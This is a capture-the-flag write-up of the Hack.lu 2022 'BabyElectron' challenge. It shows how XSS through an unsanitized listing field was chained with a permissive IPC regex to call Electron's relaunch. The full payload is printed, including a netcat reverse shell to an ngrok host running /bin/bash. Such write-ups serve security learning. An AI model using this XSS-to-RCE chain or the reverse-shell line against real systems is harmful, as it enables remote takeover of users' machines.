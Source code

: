 ```yaml
---
slug: writeup
title:  "BabyElectron"
date:   "2022-10-29"
tags: ["Hack.lu 2022 CTF", "web", "XSS", "RCE"]
author: "punshLineLama"
coverImagePath: "img/hacklu2022_electron.png"
---
```


## Description
So you wanted to get into Electron Pwning? Your friend found a nice app, leaked its backend source from a Github repo he found while doxing some Luxembourg Real Estate Company. Pwn away by getting RCE! If you run into problems while setting it up reach out. This is the first flagstore for babyelectron. 

There are two flags: one in /flag which you can submit here and one in /printflag which you can submit at babyelectronV2

# The challenge
The whole source code of the app, as well as the server-side code was provided.

The electon app could be used used to buy, sell and report real estate objects.
You can also report a real estate listing, which is then checked by a bot. 
The goal is to get code execution of the machine of the bot, which is visiting the reported listing.


# The solution
The solution comprised two steps: 
- First, you needed to get XSS in the electron app.
- Second, you needed to abuse the IPC function and get RCE.

## Setup
To make our lives easier, we started the electon app with: `electron . --proxy-server=127.0.0.1:8080` to be able to route the traffic of the app through burp.
Furhtermore, we enabled the developer tools by commenting out: `mainWindow.webContents.openDevTools()` in main.js

## First step - Getting XSS
In the support.js function from the `app` code, we see the following:

```
// security we learned from a bugbounty report
    listing.msg = DOMPurify.sanitize(listing.msg)

    const div = `
        <div class="card col-xs-3" style="width: 18rem;">
            <span id="REL-0-houseId" style="display: none;">${listing.houseId}</span>
            <img class="card-img-top" id="REL-0-image" src="../${listing.image}" alt="REL-img">
            <div class="card-body">
              <h5 class="card-title" id="REL-0-name">${listing.name}</h5>
              <h6 class="card-subtitle mb-2 text-muted" id="REL-0-sqm">${listing.sqm} sqm</h6>
              <p class="card-text" id="REL-0-message">${listing.message}</p>
              <input type="number" class="form-control" id="REL-0-price" placeholder="${listing.price}">
            </div>
        </div>
        <div>
            ${listing.msg}
        </div>
  `
```
listing.msg does get sanitized, however the other parameter do not.
The idea is to get script execution using `listing.message` parameter.

On the first impression its only possible to write the listing.msg parameter which gets posted with the report to get XSS.
As its gets sanitized, this is not possible.

However, when selling a real estate you can specify the `listing.message` when intercepting the message with burp.
So we altered the message parameter of to `<img src=x onerror=\"alert(1);\">`

Then, we checked if the XSS worked, by visiting the support page with out own electron app. 
Therefor we simply added a reference index.html s.t. it also had a link to the support page:

```html
<li class="nav-item">
    <a class="nav-link" href="../views/support.html">
      Support
    </a>
</li>
```
And also included links on the support.html page to navigate back to the other pages:
```html
<div>
    <a href="../views/index.html">Home</a>
    <a  href="../views/listings.html">Buy</a>
    <a  href="../views/portfolio.html">My Portfolio</a>
    <a  href="../views/support.html">Support</a>
</div>
```

We then navigated to the support page and intercepted the http request with burp and filled in the id, given when reporting the listing.
Thus, we could confirm the XSS.

## Step 2

Now we need to get RCE with the XSS.
Hacktricks has a nice atricle on how to get RCE from XSS in electon: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/xss-to-rce-electron-desktop-apps
As contextIsolation is tured on - `contextIsolation: true` in main.js, we figured, that we could give it a try via RCE via IPC.

The preload.js contained the following:

```js
const RendererApi = {
  invoke: (action, ...args)  => {
      return ipcRenderer.send("RELaction",action, args);
  },
};
```
It looks like we have a ipc method called `invoke`.
Lets check which function it allows us to execute in main.js:

```js
app.RELbuy = function(listingId){
  return
}

app.RELsell = function(houseId, price, duration){
  return
}

app.RELinfo = function(houseId){
  return
}

app.RElist = function(listingId){
  return
}

app.RELsummary = function(userId){
 return 
}

ipcMain.on("RELaction", (_e, action, args)=>{
  //if(["RELbuy", "RELsell", "RELinfo"].includes(action)){
  if(/^REL/i.test(action)){
    app[action](...args)  
  }else{
    // ?? 
  }
})
```

It looks like we can execute every method that starts with REL. However, the regex check is case insensitive.
Lets see if we can find an electon api app function whose name start with `rel` that might be useful. 
We find `relaunch` https://www.electronjs.org/de/docs/latest/api/app

After a bit of trial and error and reading the docs, we could achive RCE with this javascript function: 
`api.invoke("relaunch", {args: ["4.tcp.ngrok.io", "133573", "-e", "/bin/bash"], execPath:"nc"})`

Now we just needed to put that into our XSS script and let the bot visit it to get a reverse shell back.

We posted that to /sell:
```json
"message" : "<img src=x onerror=\'api.invoke('relaunch', {args: ['4.tcp.ngrok.io', '133573', '-e', '/bin/bash'], execPath:'nc'})\">"
```
We then got the id back, which we then submitted to the bot and got a shell back. The shell only lasted for 15 secs, so we needed to be quick to print out both flag ^^. but after some attemts we got both flags.

Big thanks to Alain who helped a lot during the challenge. :)
